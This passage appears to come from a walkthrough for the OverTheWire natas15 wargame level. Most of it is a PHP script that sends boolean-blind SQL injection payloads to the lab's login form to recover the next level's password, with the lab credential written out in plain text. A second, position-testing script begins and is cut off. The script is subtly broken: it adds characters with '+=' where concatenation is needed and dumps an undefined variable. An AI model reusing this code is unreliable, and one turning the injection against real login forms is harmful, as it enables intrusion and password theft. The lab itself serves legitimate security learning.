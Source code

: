 ~~~~
<?php

function post($url, $data)
{
    $username = "natas15";
    $password = "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J";
    $string = base64_encode("$username:$password");

    $options = [
        'http' => [
            'header'  => "Content-Type: application/x-www-form-urlencoded\r\n" . "authorization: Basic $string",
            'method'  => 'POST',
            'content' => http_build_query($data),
        ]
    ];

    $context  = stream_context_create($options);
    $raw_response = file_get_contents($url, false, $context);
    return $raw_response;
}


$c = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789";
$library = '';

for ($i = 0; $i < strlen($c); $i++)
{
    $character = $c[$i];
    $r = post("http://natas15.natas.labs.overthewire.org/index.php?debug", ['username' => "natas16\" AND password LIKE BINARY \"%$character%\"#"]);
    if (strpos($r, "<br>This user exists.<br>"))
    {
        $library += $character;
    }
}

var_dump($e);
~~~~

The output of which represents our "library".

To figure out if a given character from our library exists in that position of the password, we can modify our SQL query slightly to account for position.

`SELECT * FROM users WHERE username="natas16" AND password LIKE BINARY "<character>%"`

Here's our new PHP:

~~~~
<?php

function post($url, $data)
{
    $username = "natas15";
    $password = "[censored]";
    $string = base64_encode("$username:$password");

    $options = [
        'http' => [
            'header'  => "Content-Type: application/x-www-form-urlencoded\r\n" . "authorization: Basic $string",
            'method'  => 'POST',
            'content' => http_build_query($data),
        ]
~~~~